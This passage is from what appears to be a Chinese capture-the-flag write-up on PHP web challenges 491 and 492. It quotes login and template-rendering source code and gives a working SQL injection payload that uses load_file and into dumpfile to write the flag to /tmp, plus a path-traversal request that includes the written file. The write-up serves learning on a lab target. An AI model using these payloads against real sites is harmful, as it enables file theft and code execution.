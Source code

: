    ```

if($action=='login'){
	templateUtil::render($action);
}else{
	templateUtil::render($action);
}
```

改动的地方还有这里：`/index.php?action=../render/render_class`

```php
public static  function shade($templateContent,$arg){
    foreach ($arg as $key => $value) {
        $templateContent=str_replace('{{'.$key.'}}', '<?='.$value.'?>', $templateContent);
    }
    return $templateContent;
}
```

但看了好像没啥用，看群主视频是盲注

这里尝试一下`load_file`把flag带到tmp目录里，类似487

```
/index.php?action=check&username=1' union select load_file('/flag') into dumpfile '/tmp/a.php'%23&password=1

/index.php?action=../../../../../tmp/a
```



## 492

index.php:

```php
if($action=='check'){
	extract($_GET);
	if(preg_match('/^[A-Za-z0-9]+$/', $username)){
		$sql = "select username from user where username = '".$username."' and password='".md5($password)."' order by id limit 1";
		$user=db::select_one_array($sql);
	}
	if($user){
		templateUtil::render('index',$user);
	}else{
		templateUtil::render('error');
	}
}
```

多了对`$username`的正则，只能传入字母数字

还有就是`templateUtil::render('index',$user);`，
